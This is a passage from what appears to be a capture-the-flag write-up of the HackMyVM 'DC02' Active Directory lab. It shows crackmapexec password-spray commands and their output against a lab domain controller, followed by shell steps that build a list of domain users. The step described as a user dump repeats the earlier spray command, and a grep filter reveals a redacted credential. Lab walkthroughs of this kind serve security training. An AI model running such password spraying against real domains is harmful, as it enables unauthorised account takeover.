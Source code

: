 ```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/DC02/Scans/AD Enumeration]
└─$ cat valid_user_lowercase.txt  | sort -u > valid_usernames.txt
```

## Exploitation

Users often tend to use their usernames as their passwords so let's try to perform a password spray attack with the username wordlist we enumerated above.  
```bash
┌──(pentester㉿kali)-[~/…/HackMyVM/DC02/Scans/AD Enumeration]
└─$ crackmapexec smb DC01.SOUPEDECODE.LOCAL -u valid_usernames.txt -p valid_usernames.txt --no-bruteforce --continue-on-success
SMB         SOUPEDECODE.LOCAL 445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\admin:admin STATUS_LOGON_FAILURE 
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\administrator:administrator STATUS_LOGON_FAILURE 
SMB         SOUPEDECODE.LOCAL 445    DC01             [+] SOUPEDECODE.LOCAL\<REDACTED>:<REDACTED> 
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\dc01:dc01 STATUS_LOGON_FAILURE 
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\kleo2:kleo2 STATUS_LOGON_FAILURE 
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\printserver:printserver STATUS_LOGON_FAILURE 
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\wreed11:wreed11 STATUS_LOGON_FAILURE 
```

We obtained a hit on a user. We can use this user to dump all domain users on the target. 
```bash
┌──(pentester㉿kali)-[~/…/HackMyVM/DC02/Scans/AD Enumeration]
└─$ crackmapexec smb DC01.SOUPEDECODE.LOCAL -u valid_usernames.txt -p valid_usernames.txt --no-bruteforce --continue-on-success
SMB         SOUPEDECODE.LOCAL 445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\admin:admin STATUS_LOGON_FAILURE 
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\administrator:administrator STATUS_LOGON_FAILURE 
SMB         SOUPEDECODE.LOCAL 445    DC01             [+] SOUPEDECODE.LOCAL\<REDACTED>:<REDACTED> 
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\dc01:dc01 STATUS_LOGON_FAILURE 
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\kleo2:kleo2 STATUS_LOGON_FAILURE 
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\printserver:printserver STATUS_LOGON_FAILURE 
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\wreed11:wreed11 STATUS_LOGON_FAILURE

┌──(pentester㉿kali)-[~/…/HackMyVM/DC02/Scans/AD Enumeration]
└─$ cat all_users.txt| grep  'SOUPEDECODE.LOCAL\\' | cut -d '\' -f2 | cut -d ' ' -f1 | grep -v charlie:charlie > domain_users.txt

┌──(pentester㉿kali)-[~/…/HackMyVM/DC02/Scans/AD Enumeration]
└─$ wc -l domain_users.txt                                                                                        
964 domain_users.txt 
```
